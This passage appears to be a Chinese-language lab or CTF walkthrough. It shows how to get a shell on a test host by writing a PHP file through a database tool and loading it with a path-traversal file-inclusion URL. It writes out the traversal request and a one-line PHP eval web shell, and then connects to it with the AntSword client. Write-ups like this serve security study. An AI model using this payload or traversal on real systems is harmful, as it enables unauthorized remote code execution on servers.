 ![image-20220315161425031](https://gitee.com/xxb667/img/raw/master/img/image-20220315161425031.png)

(1) 创建一个数据库 **hack.php**

![image-20220315161811231](https://gitee.com/xxb667/img/raw/master/img/image-20220315161811231.png)

(2) 创建一个**test表**

![image-20220315161958212](https://gitee.com/xxb667/img/raw/master/img/image-20220315161958212.png)

(3) 写入phpinfo 看下是否利用成功

![image-20220315162223937](https://gitee.com/xxb667/img/raw/master/img/image-20220315162223937.png)

创建成功

![image-20220315162247240](https://gitee.com/xxb667/img/raw/master/img/image-20220315162247240.png)



# 3.getshell

## 3.1 文件包含漏洞getshell

文件路径

```
/usr/databases/hack.php
```

文件包含

```
http://192.168.81.142/view.php?page=../../../usr/databases/hack.php
```

![image-20220315162606721](https://gitee.com/xxb667/img/raw/master/img/image-20220315162606721.png)

思路：包含一个php 一句话木马，getshell。

把`phpinfo()`修改为

```
<?php @eval($_POST[123]);?>
```

然后再文件包含

![image-20220315162744367](https://gitee.com/xxb667/img/raw/master/img/image-20220315162744367.png)

## 3.2 中国蚁剑连接

```
http://192.168.81.142/view.php?page=../../../usr/databases/hack.php
```
